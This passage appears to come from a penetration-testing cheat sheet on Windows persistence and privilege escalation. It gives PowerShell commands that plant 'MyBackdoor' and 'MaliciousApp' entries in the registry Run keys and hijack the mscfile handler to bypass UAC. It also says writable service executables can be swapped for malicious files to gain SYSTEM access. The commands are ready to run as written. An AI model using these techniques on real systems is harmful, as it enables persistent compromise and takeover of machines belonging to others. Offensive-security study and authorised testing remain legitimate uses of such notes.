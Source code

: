 ```powershell
# Write the matching registry paths to the output file
$MatchingRegistryPaths | Out-File -FilePath $OutputFilePath
```

#### Exploit Write Access for Persistence
If the user has `WRITE` or `FULL CONTROL` on specific registry keys, modify them to include malicious payloads that will be executed on startup:
```powershell
Set-ItemProperty -Path 'HKLM:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'MaliciousApp' -Value 'C:\path\to\payload.exe'
```

#### Modify Registry for Privilege Escalation
Create or modify registry entries to escalate privileges (e.g., abusing `mscfile` handlers):
```powershell
New-ItemProperty -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Name "(default)" -Value "powershell.exe -NoProfile -ExecutionPolicy Bypass" -PropertyType String -Force
```

#### Remove a Registry Entry
To remove a malicious persistence key:
```powershell
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name "MyBackdoor"
```

#### View Startup Program Registry Entries
View all entries in the `Run` key, commonly used for persistence:
```powershell
Get-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run'
```

#### Add a Registry Entry for Startup Persistence
You can add entries in the `Run` key for persistence:
```powershell
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name "MyBackdoor" -Value "C:\Backdoor\backdoor.exe"
```

#### Registry Key Payload Examples
- [[Windows Targeting - Registry Values]]

# Service

If a service’s executable file is writable, you can replace it with a malicious file to gain SYSTEM privileges on the next service start.

#### Listing Services and Their Executables
- List all service executables (including service paths):
	```powershell
	Get-WmiObject -Class Win32_Service | Select-Object Name, StartMode, State, PathName
	```
- List all automatically starting services that are running:
	```powershell
	Get-Service | Where-Object { $_.StartType -eq 'Automatic' -and $_.Status -eq 'Running' }
	```
